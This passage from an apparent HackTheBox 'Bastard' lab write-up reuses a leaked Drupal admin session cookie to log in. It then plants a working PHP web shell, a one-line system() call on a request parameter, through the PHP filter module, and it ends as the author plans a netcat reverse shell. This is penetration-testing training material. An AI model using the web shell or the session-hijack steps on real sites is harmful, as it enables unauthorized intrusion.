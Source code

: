```bash
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}
```

It gives us the hashed password of the *admin* user. We could run it through a password cracker, however, we don’t need to because the *session.json* file gives us a valid session cookie for the *admin* user.

```bash
┌──(kali㉿kali)-[~/…/Machine/Windows/Medium/Bastard]
└─$ cat session.json                                                                                                                          1 ⚙
{
    "session_name": "SESS167065732654ec7c203e27287a34459a",
    "session_id": "nJS0-41tDSfCNmpgITuEXAqzb8YaJUJz0o1XkfNjUnY",
    "token": "eDxO18yEsqT5cCyV_YAwOMIh0TMmjsXP49fCeQwHW7s"
}
```

Let’s add the cookie to our browser .

![Untitled](/medias/images/bastard/Untitled%205.png)

Then refresh the page.

![Untitled](/medias/images/bastard/Untitled%206.png)

We’re logged in as *admin*! Click on the *Modules* tab and check if the *PHP filter* is enabled. It is. This means we can add PHP code.

![Untitled](/medias/images/bastard/Untitled%207.png)

Click on *Add new content* on the welcome page > click on *Basic page*. In the *Title* field add the value “shell”. 

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

![Untitled](/medias/images/bastard/Untitled%208.png)

In my case the entry created is under the path */node/2*. Let’s test it out.

![Untitled](/medias/images/bastard/Untitled%209.png)

We have code execution! I can’t seem to use powershell from here, so what we’ll do is upload netcat on the box and then use it to send a reverse shell back to our attack machine.
